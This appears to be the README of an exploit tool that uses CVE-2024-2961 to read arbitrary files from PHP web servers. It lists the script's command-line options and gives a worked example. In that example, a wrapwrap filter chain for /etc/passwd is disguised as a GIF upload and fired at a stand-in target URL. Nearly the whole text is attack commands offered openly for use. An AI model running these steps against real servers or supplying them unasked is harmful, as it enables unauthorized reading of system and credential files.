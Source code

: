 # CVE-2024-2961
Uses CVE-2024-2961 to perform an arbitrary file read

## Usage

Use with [wrapwrap](https://github.com/ambionics/wrapwrap) for maximum potency.

```bash
usage: arbitrary-file-read.py [-h] -t TARGET -c CHAIN -ct CONTENT_TYPE [--prefix-len PREFIX_LEN] [--suffix-len SUFFIX_LEN]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        The target URL (e.g. http://subdomain.vulnerable.tld) - Don't include any URL path component
  -c CHAIN, --chain CHAIN
                        The filepath of the chain file from wrapwrap (see: https://github.com/ambionics/wrapwrap)
  -ct CONTENT_TYPE, --content-type CONTENT_TYPE
                        The content type that your filter chain pretends to use
  --prefix-len PREFIX_LEN
                        The length of the PREFIX to remove from the file in the response. Ex to remove the "GIF89a\n" header use `--prefix-len 8
  --suffix-len SUFFIX_LEN
                        The length of the SUFFIX to remove from the file in the response
```

## Example (gif upload)

Here's an example of how you might use it with a file upload that accepts GIF images:

```bash
# run wrapwrap to get chain.txt file containing PHP filter chain
python3 wrapwrap.py /etc/passwd 'GIF89a\n' '' 999
# run this tool, providing chain.txt as an argument
python3 ./arbitrary-file-read.py -t 'http://vulnerable.tld' -c ./chain.txt -ct 'image/gif' --prefix-len 9
```

